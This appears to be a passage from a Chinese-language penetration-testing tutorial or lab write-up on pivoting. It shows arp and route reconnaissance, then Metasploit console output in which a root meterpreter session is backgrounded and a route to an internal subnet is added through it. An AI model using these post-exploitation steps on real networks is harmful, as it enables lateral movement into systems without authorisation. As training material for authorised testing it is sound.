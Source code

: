 



`arp`查看缓存表，可知与该主机通信的ip

![image-20211012194804529](assets/image-20211012194804529.png)



`route`查看路由表，可知该主机存在那些网段：

![image-20211012194747200](assets/image-20211012194747200.png)



建立路由，`route add 192.168.201.0 255.255.255.0 2`,会话id:2

```shell
meterpreter > background              #保存会话
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions        #查看会话id

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  2         meterpreter x64/linux  root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0) @ localhost.local...  192.168.111.132:4444 -> 192.168.111.132:52278 (::1)

msf6 exploit(multi/handler) > route add 192.168.201.0 255.255.255.0 2  #为192.168.201.0网段添加路由
[*] Route added
msf6 exploit(multi/handler) >

```
